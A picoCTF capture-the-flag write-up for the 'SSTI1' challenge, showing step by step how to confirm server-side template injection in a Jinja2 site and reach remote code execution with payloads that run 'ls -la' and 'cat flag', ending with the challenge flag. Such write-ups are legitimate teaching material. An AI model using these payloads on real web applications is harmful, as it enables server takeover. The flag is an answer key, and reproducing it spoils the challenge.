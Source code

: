 # SSTI1
## Description: 
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. First confirming SSTI using the payload, `${{<%[%'"}}%\.` and it should cause internal server error.
2. Using the payload `{{7*'7'}}`, we get `7777777`. Thus, Jinja2 is being used.
3. To dump all available built-in functions, try `{{self.__init__.__globals__.__builtins__}}`. Notice no blacklisting to user input.
4. To gain RCE and list available files, try `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`
5. Lastly, to read the flag, use `{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`
6. picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
